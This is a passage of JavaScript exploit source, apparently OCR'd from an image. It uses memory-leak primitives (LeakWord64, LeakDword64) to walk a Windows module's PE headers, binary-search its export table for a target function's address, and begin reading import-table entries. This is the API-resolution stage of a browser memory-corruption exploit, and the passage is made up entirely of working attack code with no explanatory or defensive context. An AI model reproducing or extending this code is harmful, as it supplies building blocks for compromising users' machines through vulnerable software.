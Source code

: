                         BinRes = BinaryCmp(TargetExportNameWord, SanitizedCurrentNameWord);

                        if(!BinRes) {
                            if(FinalTableIndex) {
                                var Ordinal = LeakWord64(MakeQword(ModuleBase.high, ModuleBase.low + OrdinalRvas + 2*CurrentIndex));
                                var MainExport = MakeQword(ModuleBase.high, ModuleBase.low + LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + AddressRvas + 4*Ordinal)));
                                return MainExport;
                            }

                            TargetTableIndex++;
                        }
                        else {
                            TargetTableIndex = 0;
                            break;
                        }
                    }
                    else {
                        TargetTableIndex = 0;
                        break;
                    }
                }

                if(BinRes == 1) { // Target is greater than what it was compared to: reduce current index
                    if(MaxIndex == CurrentIndex) {
                        DebugLog("Failed to find export: index hit max");
                        break;
                    }

                    MaxIndex = CurrentIndex;
                    CurrentIndex = Math.floor((CurrentIndex + MinIndex) / 2);
                }
                else if (BinRes == -1) { // Target is less than what it was compared to: enhance current index
                    if(MinIndex == CurrentIndex) {
                        DebugLog("Failed to find export: index hit min");
                        break;
                    }

                    MinIndex = CurrentIndex;
                    CurrentIndex = Math.floor((CurrentIndex + MaxIndex) / 2);
                }

                if(CurrentIndex == MaxIndex && CurrentIndex == MinIndex) {
                    DebugLog("Failed to find export: current, min and max indexes are all equal");
                    break;
                }
            }
        }

        return MakeQword(0, 0);
    }

    function SelectRandomImport64(ModuleBase, TargetModuleNameTable) { // Grab the first IAT entry of a function within the specified module
        var ExtractedAddresss = MakeQword(0, 0);
        var FileHdrRva = LeakDword64(MakeQword(ModuleBase.high, ModuleBase.low + 0x3c));
        var ImportDataDirAddress = MakeQword(ModuleBase.high, ModuleBase.low + FileHdrRva + 0x90); // Import data directory
        var ImportRva = LeakDword64(ImportDataDirAddress);
        var ImportSize = LeakDword64(MakeQword(ImportDataDirAddress.high, ImportDataDirAddress.low + 0x4)); // Get the size field of the import data dir
        var DescriptorAddress = MakeQword(ModuleBase.high, ModuleBase.low + ImportRva);
